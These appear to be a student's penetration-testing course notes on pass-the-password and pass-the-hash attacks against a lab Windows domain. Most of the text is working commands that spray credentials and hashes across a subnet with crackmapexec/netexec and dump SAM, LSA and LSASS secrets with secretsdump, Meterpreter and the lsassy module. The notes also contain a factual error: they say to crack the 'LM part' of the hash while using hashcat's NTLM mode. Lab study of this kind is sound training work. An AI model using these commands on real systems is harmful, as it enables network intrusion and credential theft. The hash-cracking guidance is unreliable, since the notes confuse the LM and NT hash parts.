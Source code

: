 Pass the Password / Pass the Hash
		crackmapexec has been updated to netexec.  Same tool, different name

If we've gathered any SAM hashes or cracked passwords, we can leverage both to move laterally

Pass the Password
`crackmapexec smb 10.0.0.0/24 -u fcastle -d PNPT.local -p Password1`
	Here we're using SMB to try the username and password on the PNPT.local domain for all addresses in the 10.0.0.0/24 range.
	This will spit out some info.  Green [+] is having access, getting the orange (Pwn3d!) is having admin access

To gain Hashes you can go a number of different ways.
	Meterpreter - `hashdump` will dump the hashes from the local SAM files
	`secretsdump.py PNPT.local/fcastle:Password1@10.0.0.200`
	`secretsdump.py administrator:@10.0.0.200 -hashes <hash>`
		This uses a python script to dump the hashes.  Run this on every machine that you have gotten local admin for.
	You may be able to get some clear text passwords on older systems with `wdigest` although this may not always be needed.  It works as a watering hole attack in that you would have to enable it and then wait for someone to log in.

Crack hashes once you get them.  You only need the LM part of the NT:LM hash.
	`mousepad ntlm.txt`
	Enter the LM part of the hash
	`hashcat -m 1000 ntlm.txt /usr/share/wordlists/rockyou.txt -O`
		Another example of hashcat.  
	


Pass the Hash attack (NTLMv1 will work, will not work on NTLMv2)
`crackmapexec smb 10.0.0.0/24 -u administrator -H <hash> --local-auth`
	Here we use SMB to pass the administrator hash we collected on different machines as a local account.
	Same color key applies, green +, (Pwned!), or STATUS_LOGON_FAILURE
		We can also add `--sam` at the end to dump the SAM file as well instead of using secretsdump.py
		We can also add `--shares` to enumerate what shares are on the device
		`--lsa` will dump the 'local security authority'
			All of these can also be done with secretsdump.py
		`crackmapexec smb -L` will show different built in modules
			`-M lsassy` at the end will run the Module, lsassy.  -M and module name
	CME will keep a database of tried (successful and unsuccessful) passwords

Accessing the CME database
	`cmedb` will kick you into the cme database
		type `help` to get a list of commands


Mitigation for these attacks
![[Pasted image 20240524103701.png]]
